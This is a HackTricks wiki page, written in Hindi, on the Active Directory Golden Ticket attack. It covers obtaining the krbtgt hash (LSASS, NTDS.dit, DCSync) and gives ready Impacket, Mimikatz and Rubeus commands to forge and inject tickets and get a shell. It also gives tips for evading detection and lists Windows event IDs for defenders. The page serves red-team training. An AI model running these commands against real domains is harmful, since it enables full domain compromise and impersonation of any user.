 # Golden Ticket

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Golden ticket

एक **Golden Ticket** हमला **किसी भी उपयोगकर्ता का अनुकरण करते हुए एक वैध टिकट ग्रांटिंग टिकट (TGT) बनाने** पर आधारित है, जो **Active Directory (AD) krbtgt खाते के NTLM हैश** का उपयोग करता है। यह तकनीक विशेष रूप से फायदेमंद है क्योंकि यह **अनुकरण किए गए उपयोगकर्ता के रूप में डोमेन के भीतर किसी भी सेवा या मशीन तक पहुंच** की अनुमति देती है। यह याद रखना महत्वपूर्ण है कि **krbtgt खाते के क्रेडेंशियल्स कभी भी स्वचालित रूप से अपडेट नहीं होते**।

**krbtgt खाते का NTLM हैश प्राप्त करने के लिए**, विभिन्न विधियों का उपयोग किया जा सकता है। इसे **स्थानीय सुरक्षा प्राधिकरण उपप्रणाली सेवा (LSASS) प्रक्रिया** या **NT डायरेक्टरी सेवाएं (NTDS.dit) फ़ाइल** से निकाला जा सकता है, जो डोमेन के भीतर किसी भी डोमेन कंट्रोलर (DC) पर स्थित है। इसके अलावा, **DCsync हमले को निष्पादित करना** इस NTLM हैश को प्राप्त करने की एक और रणनीति है, जिसे **Mimikatz में lsadump::dcsync मॉड्यूल** या **Impacket द्वारा secretsdump.py स्क्रिप्ट** का उपयोग करके किया जा सकता है। यह महत्वपूर्ण है कि इन कार्यों को करने के लिए **डोमेन प्रशासनिक विशेषाधिकार या समान स्तर की पहुंच की आवश्यकता होती है**।

हालांकि NTLM हैश इस उद्देश्य के लिए एक व्यवहार्य विधि के रूप में कार्य करता है, लेकिन **संचालन सुरक्षा कारणों से** **उन्नत एन्क्रिप्शन मानक (AES) Kerberos कुंजी (AES128 और AES256) का उपयोग करके टिकटों को बनाना** **काफी अनुशंसित** है।

{% code title="From Linux" %}
```bash
python ticketer.py -nthash 25b2076cda3bfd6209161a6c78a69c1c -domain-sid S-1-5-21-1339291983-1349129144-367733775 -domain jurassic.park stegosaurus
export KRB5CCNAME=/root/impacket-examples/stegosaurus.ccache
python psexec.py jurassic.park/stegosaurus@lab-wdc02.jurassic.park -k -no-pass
```
{% endcode %}

{% code title="Windows से" %}
```bash
#mimikatz
kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt
.\Rubeus.exe ptt /ticket:ticket.kirbi
klist #List tickets in memory

# Example using aes key
kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /aes256:430b2fdb13cc820d73ecf123dddd4c9d76425d4c2156b89ac551efb9d591a439 /ticket:golden.kirbi
```
{% endcode %}

**एक बार** जब आप **गोल्डन टिकट इंजेक्ट** कर लेते हैं, तो आप साझा फ़ाइलों **(C$)** तक पहुँच सकते हैं, और सेवाओं और WMI को निष्पादित कर सकते हैं, इसलिए आप **psexec** या **wmiexec** का उपयोग करके एक शेल प्राप्त कर सकते हैं (ऐसा लगता है कि आप winrm के माध्यम से शेल प्राप्त नहीं कर सकते)।

### सामान्य पहचान को बायपास करना

गोल्डन टिकट का पता लगाने के सबसे सामान्य तरीके **केर्बेरोस ट्रैफ़िक** की जांच करना है। डिफ़ॉल्ट रूप से, Mimikatz **TGT को 10 वर्षों के लिए साइन करता है**, जो इसके साथ किए गए बाद के TGS अनुरोधों में असामान्य के रूप में खड़ा होगा।

`Lifetime : 3/11/2021 12:39:57 PM ; 3/9/2031 12:39:57 PM ; 3/9/2031 12:39:57 PM`

शुरुआत ऑफ़सेट, अवधि और अधिकतम नवीनीकरण (सभी मिनटों में) को नियंत्रित करने के लिए `/startoffset`, `/endin` और `/renewmax` पैरामीटर का उपयोग करें।
```
Get-DomainPolicy | select -expand KerberosPolicy
```
दुर्भाग्यवश, TGT का जीवनकाल 4769 में लॉग नहीं किया गया है, इसलिए आप यह जानकारी Windows इवेंट लॉग में नहीं पाएंगे। हालाँकि, आप जो सहसंबंधित कर सकते हैं वह है **4769 को बिना पूर्व 4768 के देखना**। यह **TGT के बिना TGS का अनुरोध करना संभव नहीं है**, और यदि TGT जारी होने का कोई रिकॉर्ड नहीं है, तो हम यह निष्कर्ष निकाल सकते हैं कि इसे ऑफ़लाइन तैयार किया गया था।

इस **पता लगाने से बचने के लिए** हीरे के टिकटों की जांच करें:

{% content-ref url="diamond-ticket.md" %}
[diamond-ticket.md](diamond-ticket.md)
{% endcontent-ref %}

### शमन

* 4624: खाता लॉगिन
* 4672: प्रशासनिक लॉगिन
* `Get-WinEvent -FilterHashtable @{Logname='Security';ID=4672} -MaxEvents 1 | Format-List –Property`

अन्य छोटे ट्रिक्स जो रक्षक कर सकते हैं वह है **संवेदनशील उपयोगकर्ताओं के लिए 4769 पर अलर्ट करना** जैसे कि डिफ़ॉल्ट डोमेन प्रशासक खाता।

## संदर्भ
* [https://www.tarlogic.com/blog/how-to-attack-kerberos/](https://www.tarlogic.com/blog/how-to-attack-kerberos/)
* [https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-golden-tickets](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-golden-tickets)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
